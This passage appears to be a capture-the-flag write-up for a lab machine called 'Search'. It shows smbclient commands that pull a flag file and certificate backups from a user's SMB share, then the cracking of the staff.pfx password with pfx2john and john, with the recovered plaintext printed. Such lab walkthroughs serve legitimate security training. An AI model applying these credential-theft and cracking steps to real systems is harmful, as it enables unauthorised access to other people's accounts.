 
Retrieving the <mark>user.txt</mark> flag.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search]
└─$ smbclient \\\\10.10.11.129\\RedirectedFolders$ -U Sierra.Frye
Password for [WORKGROUP\Sierra.Frye]:
Try "help" to get a list of possible commands.
smb: \> get sierra.frye\Desktop\user.txt
getting file \sierra.frye\Desktop\user.txt of size 34 as sierra.frye\Desktop\user.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
{% endhighlight %}

Retrieving the certificates.
{% highlight shell %}
smb: \sierra.frye\Downloads\Backups\> mget *
Get file search-RESEARCH-CA.p12? yes
getting file \sierra.frye\Downloads\Backups\search-RESEARCH-CA.p12 of size 2643 as search-RESEARCH-CA.p12 (19.3 KiloBytes/sec) (average 19.3 KiloBytes/sec)
Get file staff.pfx? yes
getting file \sierra.frye\Downloads\Backups\staff.pfx of size 4326 as staff.pfx (28.9 KiloBytes/sec) (average 24.3 KiloBytes/sec)
{% endhighlight %}

Importing the certificates prompts us for the password.

![Certificate's password prompt](/assets/img/posts/Search/certificates_password_prompt.png)

We can crack the <mark>staff.pfx</mark> file using <mark>pfx2john</mark> and <mark>john</mark>.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search/certs]
└─$ pfx2john staff.pfx > staff.pfx_hash.txt
staff.pfx:$pfxng$1$20$2000$20$ab06d852d1875d818341c5737782c7117277265e <SNIP>
{% endhighlight %}

{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search/certs]
└─$ john staff.pfx_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=pfx     
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
misspissy        (staff.pfx)     
1g 0:00:00:34 DONE (2025-03-13 15:18) 0.02883g/s 158147p/s 158147c/s 158147C/s misswsofoly..missnono
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
{% endhighlight %}
We successfully recover the password's plain text value: <mark>misspissy</mark>.
